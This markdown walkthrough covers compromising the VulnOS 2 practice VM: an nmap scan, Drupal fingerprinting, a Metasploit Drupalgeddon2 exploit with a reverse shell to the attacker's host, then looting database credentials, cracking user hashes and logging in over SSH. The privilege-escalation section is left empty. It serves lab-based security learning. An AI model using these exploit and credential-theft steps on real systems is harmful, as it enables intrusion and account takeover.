


# VulnOS: 2 Walkthrough

## Preparation
1. Download VulnOS2.z file ([VulnOS2.z](https://download.vulnhub.com/vulnos/VulnOSv2.7z))

1. Extract the .z file  

1. Move the extracted folder to the VM's folder  

1. Add the VulnOSv2.box file in the VirtualBox

1. Set the network adapter to Host-only Adapter
    * Attached to: **Host-only Adapter**
        

1. Start the VulnOS2 virtual machine
    * Turn on the VulnOS2 virtual machine from the VirtualBox  
      

1. Confirm the IP address of the VulnOS2 virtual machine from the attack virtual machine  
    * `sudo netdiscover -i enp0s3 -r 192.168.56.0/24`  
      
      
        * 192.168.56.100: DHCP Server
        * **192.168.56.104**: VulnOS2 Server

1. Set the VulnOS2 IP address to the environment variance  
    * `export IP=192.168.56.104`  

## Reconnaissance
1. Do portscan using Nmap  
    * `sudo nmap -sC -sV -Pn -p- $IP -oN nmap_result.txt`  
      
        * -sC: Scan with default script
        * -sV: Show software name and the version
        * -Pn: Do not confirm communication before port scan (We have already confirmed the DC-2 IP address.)
        * -p-: Scan all ports (from 0 to 65535 ports)
        * -oN: Output the scan results to the specified file
    * As we see the nmap result, we can attempt to access of 22 (SSH Service), 80 (HTTP Service), and 6667 (IRC Service) ports.  

1. Access to the 80 port  
    * Access with Web browser  
      
      
        - The page may be structured by Drupal 7  

1. Scan the web page  
    * Use droopescan  
      
        - `droopescan scan -u http://192.168.56.104/jabc/`  
        - The Drupal version: 7.22 ~ 7.26  

## Execution  
1. Find exploit  
    * Use Metasploit  
        - `msfconsole`  
        - `search drupal 7 type:exploit`  
        - `info exploit/unix/webapp/drupal_drupalgeddon2` (Confirmation of module #1)  
        - `use exploit/unix/webapp/drupal_drupalgeddon2` (Use this exploit)  
        - `set RHOSTS 192.168.56.104`  
        - `set RPORT 80`  
        - `set LHOST 192.168.56.101`  
        - `set LPORT 4444`  
        - `set TARGETURI /jabc/`  
        - `run`  

## Credential Access  
1. Change shell  
    * Get TTY shell  
      
        - `shell`  
        - `python3 -c 'import pty;pty.spawn("/bin/bash")'`  

1. Get database information  
    * Find credential information  
      
        - `cd ../jabcd0cs`  
        - `cat config.php`  
        - DB_NAME: "jabcd0cs"  
        - DB_USER: "root"  
        - DB_PASS: "toor"  

1. Access to the database  
    * Access to the MySQL server  
        - `mysql -u root -p`  
        - Password: "toor"  

1. Get usernames and passwords  
    * Search the database information  
      
        - `use jabcd0cs;`  
        - `show tables;`  
        - `describe odm_user;` 
        - `select id,username,password from odm_user;`  

1. Decode the password hashes  
    * Use online MD5 hash cracker (https://crackcrypt.com/)  
        - webmin: **webmin1980**  
        - guest: **guest**  

1. Access to the SSH service  
    * Use the "webmin" credential  
        - `ssh webmin@192.168.56.104`  
        - Password: webmin1980  
    * Change the shell  
        - `/bin/bash -i`  

## Privilege Escalation  
1. 
